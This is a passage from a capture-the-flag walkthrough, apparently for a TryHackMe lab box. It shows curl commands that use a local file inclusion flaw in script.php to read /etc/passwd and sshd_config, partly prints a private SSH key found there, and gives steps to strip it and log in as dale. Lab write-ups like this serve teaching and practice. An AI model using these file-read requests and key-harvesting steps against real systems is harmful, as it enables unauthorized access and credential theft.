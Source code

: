 ## 4. Foothold - LFI, private key 

Curling the newly discovered vhost reveals a development page including a link with a suspicious looking query param : 

```console
┌──(kali㉿kali)-[~/Documents/tthm/team]
└─$ curl team.thm -H "Host: dev.team.thm"
<html>
 <head>
  <title>UNDER DEVELOPMENT</title>
 </head>
 <body>
  Site is being built<a href=script.php?page=teamshare.php </a>
<p>Place holder link to team share</p>
 </body>
</html>
```

This is likely an LFI or RFI vulnerability - normally we might want to automate the testing of this vulnerability, but jumping straight to `/etc/passwd` shows that no LFI protections are in place :

```console
┌──(kali㉿kali)-[~/Documents/tthm/team]
└─$ curl team.thm/script.php?page=/etc/passwd -H "Host: dev.team.thm"

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...snip...
```

The `/etc/passwd` file confirms the already discovered usernames (dale, gyles, ftpuser). We can now target the config file containing copied private keys mentioned in the file discovered in FTP. `/etc/ssh/config` looks pretty standard, but `/etc/ssh/sshd_config` includes a private key (just like Gyles asked!) : 

```console
┌──(kali㉿kali)-[~/Documents/tthm/team]
└─$ curl team.thm/script.php?page=/etc/ssh/sshd_config -H "Host: dev.team.thm"
#       $OpenBSD: sshd_config,v 1.101 2017/03/14 07:19:07 djm Exp $

# This is the sshd server system-wide configuration file.  See
# sshd_config(5) for more information.
...snip...
#Dale id_rsa
#-----BEGIN OPENSSH PRIVATE KEY-----
#b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
#NhAAAAAwEAAQAAAYEAng6KMTH3zm+6rqeQzn5HLBjgruB9k2rX/XdzCr6jvdFLJ+uH4ZVE
#NUkbi5WUOdR4ock4dFjk03X1bDshaisAFRJJkgUq1+zNJ+p96ZIEKtm93aYy3+YggliN/W
```

Copy the private key, save it on your local machine, remove the first line and the "#" symbols (`cat the-key | tr -d '#' > id_rsa` should speed this up), chmod it to 600, and use it to connect as dale (if ssh complains about the formatting of the key, make sure you've removed the first line, all of the comment symbols, and that the file ends with an empty line) : 
